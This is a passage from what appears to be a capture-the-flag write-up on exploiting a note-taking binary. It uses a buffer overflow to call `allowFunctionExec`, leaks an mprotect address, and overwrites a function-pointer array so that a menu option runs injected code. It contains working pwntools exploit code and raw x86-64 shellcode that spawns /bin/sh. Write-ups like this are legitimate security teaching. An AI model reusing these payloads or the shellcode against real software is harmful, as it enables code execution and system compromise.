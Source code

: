 Then we can send in `2` when prompted for an option and we'll basically call `allowFunctionExec`. Here is some python code.

```python
payload = b'a' * 2432
payload += p64(allow_funcs)
payload += b'c' * (32768 - (8 + 2432))
add(payload)
p.sendline(b'2')
print(p.recvuntil(b'mprotect at '))
mprotect = int(p.recv().split(b'\n')[0].strip(b'..'), 16)
print(hex(mprotect))
```

In addition to calling `allowFunctionExec`, we also get a leak so we know where the beginning of the mprotected section of `optionFuncs` is. 

![](calling_allowfunc.png)

Here is a lil sample of calling `allowFunctionExec`.  

What next? Well, we can utilize the same vuln in the `editNote` function such that we put shellcode in that array along with the `mprotect` pointer that was leaked. Then we 
can use one of the menu options to call the index where the mprotect pointer resides such that we can jump to that position and execute the shellcode. Here is what the array 
will look like with our exploit.

```c
optionFuncs[0] = shellcode;
optionFuncs[1] = shellcode;
optionFuncs[2] = shellcode;
optionFuncs[3] = mprotect ptr;
```

After we send in a payload to make the array look like the above pseudo code, we can use menu option `4` which will execute the mprotect pointer we sent in, and that will jump to the beginning of the optionFuncs array and execute our shellcode. Below is the python we'll use for this part of the exploit. 

```python
def edit(idx, msg):
    p.sendline(b'4')
    p.sendline(idx)
    p.sendline(msg)

shellcode =  b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
payload2 = b'b' * 2424
payload2 += b'\x61'
payload2 += shellcode
payload2 += p64(mprotect + 1)
payload2 += b'd' * (32768 - (2424 + len(shellcode) ))
edit(b'0', payload2)
```